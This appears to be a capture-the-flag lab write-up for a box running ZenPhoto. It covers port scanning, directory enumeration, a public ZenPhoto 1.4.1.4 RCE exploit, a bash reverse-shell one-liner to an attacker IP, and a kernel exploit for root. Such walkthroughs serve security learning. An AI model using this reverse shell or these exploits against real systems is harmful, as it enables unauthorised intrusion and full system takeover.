 # ZenPhoto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.41 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:19 +08
Nmap scan report for 192.168.175.41
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```

Of all things, Telnet is open.&#x20;

### Web Enum --> ZenPhoto RCE

Port 80 just shows this:

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

A `gobuster` scan reveals the following directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.41/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.41/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 20:22:15 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 75]
/test                 (Status: 301) [Size: 315] [--> http://192.168.175.41/test/]
```

Visiting `/test` reveals a ZenPhoto instance:

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals the version of ZenPhoto that is running:

<figure><img src="../../../.gitbook/assets/image (62) (2).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits available for this instance:

```
$ searchsploit zenphoto 1.4.1.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Ex | php/webapps/18083.php
----------------------------------------------------------- ---------------------------------
```

This exploits works in getting me a webshell:

<figure><img src="../../../.gitbook/assets/image (57) (7).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell using this one-liner:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.164/4444 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kernel Exploit --> Root

This machine was running on a really old Linux kernel version:

```
www-data@offsecsrv:/home$ uname -a
Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
```

There are quite a few exploits that might work for this version of Linux running. I used this one:

{% embed url="https://www.exploit-db.com/exploits/15704" %}

Compile it on the machine itself using `gcc exploit.c -o exploit`. Then, run it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Rooted!
